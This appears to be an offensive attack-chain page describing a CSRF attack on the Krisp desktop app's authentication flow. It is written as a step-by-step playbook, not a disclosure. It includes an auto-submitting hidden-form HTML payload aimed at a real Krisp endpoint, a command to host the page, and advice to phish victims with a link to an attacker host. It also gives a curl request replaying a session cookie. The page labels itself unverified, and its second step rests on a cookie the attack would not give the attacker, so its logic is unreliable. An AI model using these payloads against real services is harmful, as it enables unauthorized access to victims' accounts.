

# CSRF in Krisp Desktop App Authentication Leading to Unauthorized Account Access

Multi-stage attack chain demonstrating a complete attack workflow exploiting a CSRF vulnerability in the Krisp desktop application's authentication mechanism.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for crafting requests
- A web server to host the malicious page (e.g., local Python server)

### Target Environment

- Krisp desktop application installed and running on the target user's machine
- Target OS/Platform: Windows, macOS, or Linux (Desktop)
- Required services/ports: Localhost or app-specific API endpoints (typically HTTP/HTTPS on dynamic ports)
- Network access requirements: Attacker needs to deliver a malicious link or page to the victim

### Initial Access Requirements

- Victim must be authenticated in the Krisp app
- No special credentials for attacker; relies on victim's session
- Network position: Remote (via phishing or social engineering)
- Prior access needed: None, but victim interaction required

## Detailed Attack Procedures

### Step 1: Deliver Malicious CSRF Payload
procedure: [[procedures/Exploit-CSRF-in-Krisp-Authentication-Flow]]

**Objective**: Trick the victim into triggering a CSRF request that bypasses authentication checks in the Krisp app's web-based auth flow.

**Instructions**: Create a malicious HTML page that submits a forged request to the Krisp app's authentication endpoint. Host it on a server and send the link to the victim via email or messaging. When the victim (who is logged in to Krisp) visits the page, the form auto-submits, exploiting the lack of CSRF tokens.

Example malicious HTML:

```html
<!DOCTYPE html>
<html>
<body>
<form action="https://app.krisp.ai/auth/verify" method="POST" id="csrf-form">
    <input type="hidden" name="action" value="access_dashboard" />
    <input type="hidden" name="user_id" value="victim_user_id" />
</form>
<script>document.getElementById('csrf-form').submit();</script>
</body>
</html>
```

Host this on a local server using Python:

```bash
python -m http.server 8000
```

Share the URL http://attacker-ip:8000/malicious.html with the victim while they are authenticated in Krisp.

**Expected Output**: The form submits silently, and the Krisp app processes the request as if initiated by the user.

**Success Indicators**:
- Victim's browser makes a POST request to Krisp's auth endpoint
- No CSRF token validation error occurs

### Step 2: Access Account Dashboard
procedure: [[procedures/Exploit-CSRF-in-Krisp-Authentication-Flow]]

**Objective**: Leverage the CSRF to gain unauthorized read/write access to the victim's account dashboard.

**Instructions**: After the CSRF triggers, the attacker can follow up by accessing the dashboard via a secondary request or by monitoring the response. In this vulnerability, the CSRF allows direct dashboard access without re-authentication. Use a tool like Burp Suite to intercept and replay the session, or craft a follow-up request to fetch dashboard data.

Simulate access with a crafted request (assuming session cookie is shared or predictable):

```bash
curl -X GET "https://app.krisp.ai/dashboard" -H "Cookie: session=attacker_session_from_csrf" -H "Referer: https://attacker-site.com"
```

**Expected Output**: JSON or HTML response containing account details from the dashboard.

**Success Indicators**:
- Dashboard content retrieved without additional auth
- Account data (e.g., user settings, noise cancellation profiles) exposed

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protections in desktop app auth flow
2. Achieved unauthorized access to sensitive account dashboard
3. Demonstrated potential for further actions like data exfiltration or account modification

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise
- [[Steal Web Session Cookie]] Steal Web Session Cookie

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T12:00:00Z*
